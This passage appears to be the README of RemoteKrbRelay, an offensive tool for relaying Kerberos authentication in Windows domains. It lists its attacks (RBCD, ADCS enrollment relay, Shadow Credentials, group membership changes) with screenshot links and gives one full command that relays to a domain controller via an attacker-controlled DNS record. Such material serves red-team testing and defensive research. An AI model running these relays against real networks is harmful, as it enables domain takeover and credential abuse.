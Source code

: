 # Examples
I suggest looking at some of the attacks:
- RBCD - relay to LDAP and setup RBCD.
![Pasted image 20240520155730](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/b0c45ea0-92ff-4f8c-9984-0ca15e629aee)

- HTTP ADCS - relay to web enrollment service.
![Pasted image 20240520155547](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/ca34a642-57b6-482f-9965-acd22056ab4f)

- ShadowCred - relay to LDAP and setup ShadowCreds.
![Pasted image 20240529141710](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/f7811781-9e5e-4a74-ae19-33c9353fae9d)

- Add user to group
![Pasted image 20240529170057](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/fe401965-fc89-44e1-ba74-cc1529902e63)

- LDAP Whoami request - It is convenient to combine with CLSID Bruteforce functionality. You can find out which user you are triggering. Try triggering for the first five sessions on all machines in the domain. Wow, that's what, a domain administrator in five minutes? :) 
![Pasted image 20240530214447](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/8274b454-2e6a-4530-b963-2b96191eb3a2)

Supports cross-session activation using `-session`:
![Pasted image 20240530220634](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/13b7adc3-5597-42c8-8388-b6f2f4bcc9d3)

![Pasted image 20240530220705](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/54dfd18e-b99f-450e-998d-91aefdd2cbda)

Also LAPS, changing user password, smb....

Video DEMO:
- [https://youtu.be/1zvycrTTgDU](https://youtu.be/1zvycrTTgDU)

# TO DO LIST
- [ ] Dump GMSA
- [ ] Exchange to exchange relay
- [ ] CLSID Bruteforce
- [ ] Relay with supplemental credentials

# Tips
- [ ] Relay initial OXID Request authentication. [Link](https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html). U can test:
```shell
.\RemoteKrbRelay.exe -ldapwhoami -victim win10.vostok.street -target dc01.vostok.street -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -local dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAAA

# but I haven't implemented the relay from Initial OXID Request yet. Do it BRO! :)
# dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAAA <- this is DNS A record that points to kali (thx to CredMarshalTargetInfo() because i can receive tkt on RPCSS/dc01)
```

